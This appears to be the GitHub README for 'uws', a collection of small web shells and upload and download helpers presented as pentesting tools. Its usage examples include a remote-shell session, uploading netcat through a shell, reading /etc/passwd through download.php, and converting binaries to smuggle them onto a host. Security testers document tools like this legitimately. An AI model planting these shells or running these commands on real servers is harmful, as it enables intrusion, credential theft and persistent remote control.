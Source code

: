 # uws (Micro Web Shells for Pentesting)

Micro web-shells for pentesting. 

## Features

* Minimalistic web-shell.
* Multiplatform.
* Source IP protection.

#### Shells 

* uws.jsp : java micro web shell, tested in linux/tomcat
* uws.php : php web shell, tested in linux/apache
* uws.asp : asp web shell, tested in winxp/iis
* uws.aspx : aspx web shell, tested in win2k3/iis
* uws.cgi : perl-cgi web shell, tested in linux/apache

#### Tools

* download.php, upload.php 
* binhex, hexbin 
* bin2sh
* wsh 

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Prerequisites

Binaries should compile/run on any Win32 or UNIX/Linux box. You only need a relatively modern C compiler.

### Installing

Download a copy of the project from github:

```
$ git clone https://github.com/joseigbv/uws.git
```

Compile tools.

```
$ gcc -Wall -O2 binhex.c -o binhex 
...
```

### Usage

Select web-shell and edit "REMOTEIP" to limit access.

It may be necessary to adapt the commands according to the target technology (linux or windows) (uuencode, uudecode, cmd, sh, cat, ...)

For Apache Tomcat build .WAR using genwar.sh 

#### Tools

wsh.sh: "client" for remote web shell with history

```
$ ./wsh.sh http://localhost:8080/uws.jsp

wsh> pwd
/opt/apache-tomcat-6.0.35/bin
wsh> 
```

upload_b64.sh: files upload using micro web shell and base64 encoding.

```
$ ./upload_b64.sh http://localhost:8080/uws.jsp /bin/nc /tmp/ncx

Uploading file...................................... done!
```

download_b64.sh: download files using micro web shell and base64 encoding.

```
$ ./download_b64.sh http://localhost:8080/hoolista/hoolista.jsp /bin/nc /tmp/nc
```

upload.php: text/binary files upload. 

```
$ curl -F file=@/bin/lss http://localhost/upload.php
```

download.php: text/binary files download.

```
$ curl http://localhost/download.php?file=/etc/passwd
```

binhex: converts binary file to text file with hexadecimal representation of bytes.

```
$ ./binhex < /bin/nc > nc.hex 
```

hexbin: convert text file with hexadecimal representation of bytes to binary file.

```
$ ./hexbin < nc.hex > /bin/nc 
```

bin2sh: converts binary to shell script, when executed it regenerates binary; useful to upload line by line.

$ ./bin2sh < /bin/nc > nc.sh 
$ ./nc.sh > /bin/nc

## Authors

* **José Ignacio Bravo** - *Initial work* - nacho.bravo@gmail.com

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details


